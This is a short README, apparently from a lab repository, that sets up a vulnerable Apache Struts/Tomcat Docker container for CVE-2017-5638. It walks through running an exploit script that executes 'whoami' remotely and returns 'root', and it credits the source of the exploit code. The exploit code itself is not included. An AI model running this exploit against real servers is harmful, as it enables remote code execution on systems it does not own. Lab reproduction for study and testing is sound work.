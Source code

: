 #+TITLE: CVE-2017-5638
Attack container and exploit

* Build container
  #+begin_src python :results output
% make build
  #+end_src

* Run the vulnerable tomcat server
  #+begin_src python :results output
% make run
docker run -d vulnstruts
8d1de3d1b...
  #+end_src

* Run the exploit

  First, get the IP address of the vulnerable tomcat server docker container 
  #+begin_src python :results output
docker inspect 8d1de3d1b...

"IPAddress": "172.17.0.6",
  #+end_src

  Then run the exploit against the IP address
  #+begin_src python :results output
% make exploit TARGET_IP=<IP address>

python exploitS2-045-cmd.py TARGET_IP:8080 whoami
[Execute]: whoami

root

  #+end_src

* Tools used
  - Debian snapshots repository and our tool to build a Debian jessie image on 20170301. The tool to build the image will be released later because it contains author's information.
  - Parts of the Dockerfile code and exploits are from piesecurity/apache-struts2-CVE-2017-5638
